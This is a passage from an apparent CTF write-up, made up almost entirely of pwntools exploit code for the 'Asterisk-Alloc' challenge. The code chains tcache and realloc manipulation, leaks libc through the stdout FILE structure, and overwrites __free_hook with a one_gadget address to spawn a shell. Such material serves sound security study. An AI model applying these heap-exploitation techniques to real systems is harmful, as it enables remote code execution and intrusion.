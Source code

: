 ```python=
y.sendline( 'cat flag' )

y.interactive()
```

### Asterisk-Alloc

```python=
from pwn import *

#r = process("./asterisk_alloc")
r = remote("ast-alloc.chal.ctf.westerns.tokyo", 10001)
def realloc(size,content):
    r.sendlineafter(":","3")
    r.sendlineafter(":",str(size))
    if size > 0:
        r.sendafter(": ",content)
    else:
        r.recvuntil(": ")
def malloc(size,content):
    r.sendlineafter(":","1")
    r.sendlineafter(":",str(size))
    r.sendafter(":",content)

def calloc(size,content):
    r.sendlineafter(":","2")
    r.sendlineafter(":",str(size))
    r.sendafter(":",content)

def free(t):
    r.sendlineafter(":","4")
    r.sendlineafter(":",t)



realloc(0x90,"a")
calloc(0x90,"a")
malloc(0x90,"a")
for i in range(8):
    free("r")
val = 0xa760
realloc(0x90,p16(val))
realloc(-1,"a")
realloc(0x90,"a")
realloc(-1,"a")
realloc(0x90,p64(0xfbad1800)+"\x00"*0x19)
data = r.recvuntil("=")
libc = u64(data[1*8:1*8+8])-0x3ed8b0
print hex(libc)

free("m")
realloc(-1,"a")
realloc(0x90,"a")
free("r")
realloc(0x90,p64(libc+0x3ed8e8))
realloc(-1,"a")
realloc(0x90,"a")
realloc(-1,"a")
realloc(0x90,p64(libc+0x4f322))
free("m")


r.interactive()
```